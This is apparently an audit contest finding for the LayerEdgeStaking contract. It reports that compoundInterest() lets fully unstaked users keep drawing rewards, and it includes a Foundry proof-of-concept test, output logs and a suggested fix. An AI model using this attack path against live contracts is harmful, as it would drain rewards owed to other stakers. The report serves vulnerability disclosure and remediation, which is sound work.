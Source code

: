 Generous Currant Fish

High

# User can steal rewards when `compoundingEnabled` is set to true.

### Summary

LayerEdgeStaking simply allows users to stake $EDGEN tokens to earn rewards over time. Interests in form of rewards can also be compounded into the user's already staked assets for the user to withdraw their tokens and earn rewards together with the withdrawn tokens, although a user can only compound his interest when `compoundingEnabled` is set to true by the admin . The expected flow should work just fine,  but because there is no check in the `LayerEdgeStaking::compoundInterest()` function to ensure that a user who has already completely unstaked his token shouldn't be able to call `compoundInterest()`, when `compoundingEnabled` is set to true,  a malicious user can re-enter into the staking mechanism to steal rewards after completely withdrawing his asset from the protocol.

Link to affected code: https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L213-L241

### Root Cause

In   `LayerEdgeStaking::compoundInterest()`  there is no check to ensure that a user who has completely withdrawn his asset shouldn't be able to compound interests, because he has no asset left in the protocol.

### Internal Pre-conditions

This is a simple attack, the admin just needs to set `compoundingEnabled` to true.

### External Pre-conditions

no response

### Attack Path

1. User calls `stake()` with some amount of tokens, 1000 $EDGEN .
2. User waits for some days or months for rewards to accumulate.
3. User calls `unstake()` and queues his assets to be completely finalized after 7 days.
4. After 7 days, user call `completeUnstake()` to completely withdraw all his assets from the protocol.
5. Admin sets `compoundingEnabled` to `true`
6. User then calls `compoundInterest()`, thereby adding his rewards to his non existing balance.
7. After some  time rewards gets accumulated and the user withdraws the rewards by calling `claimInterest()`.

the user can repeat this process without staking anymore asset, to steal rewards from the protocol.

### Impact

The protocol loses a significant amount of rewards through the process described above.

### PoC

add the following test in `LayerEdgeStakingTest.t.sol` and run `forge test --mt test__Poc -vvv` to veiw the logs

```solidity
 function test__Poc() public {
    
        //Alice stakes some amount of assets
        vm.startPrank(alice);
        token.approve(address(staking), MIN_STAKE);
        staking.stake(MIN_STAKE);
        vm.stopPrank();
       
        // Advance time by 30 days
        vm.warp(block.timestamp + 30 days);
       
        //user unstakes his assests
        vm.startPrank(alice);
        staking.unstake(MIN_STAKE);
        //time travel so user can compeletly unstake
        vm.warp(block.timestamp + 7 days + 1);
        staking.completeUnstake(0);
        vm.stopPrank();
        //pending rewards and balance after the user completely unstakes

         (uint256 balance,,, uint256 pendingRewards) = staking.getUserInfo(alice);
         console2.log("user balance after completely unstaking", balance);
        console2.log("pendingRewards after completely unstaking", pendingRewards);
        
        
         //admin sets  compoundingEnabled to true
        vm.startPrank(admin);
        staking.setCompoundingStatus(true);
        vm.stopPrank();
        
        //alice then further compounds interest
        vm.startPrank(alice);
          staking.compoundInterest();
         vm.stopPrank();

         //Wait for some days..
         //gets the new balance and pending rewards of alice
         vm.warp(block.timestamp + 30 days);
         (uint256 newBalance1,,, uint256 pendingRewardsAfter) = staking.getUserInfo(alice);
         console2.log("user balance after the attack", newBalance1); 
         console2.log("pendingRewardsAfter The attack", pendingRewardsAfter);  
         
    }
```
```bash
Logs:
  user balance after completely unstaking 0
  pendingRewards after completely unstaking 123287671232876712328
  user balance after the attack 123287671232876712328
  pendingRewardsAfter The attack 2026646650403452805

```
From the logs shown above, the malicious user uses rewards to re-enter into the protocol to steal more rewards. The malicious user can continue this process over and over again without needing to stake any asset to steal rewards from the protocol

### Mitigation

Consider implementing a check not to allow users who already left the protocol to be able to compound interest.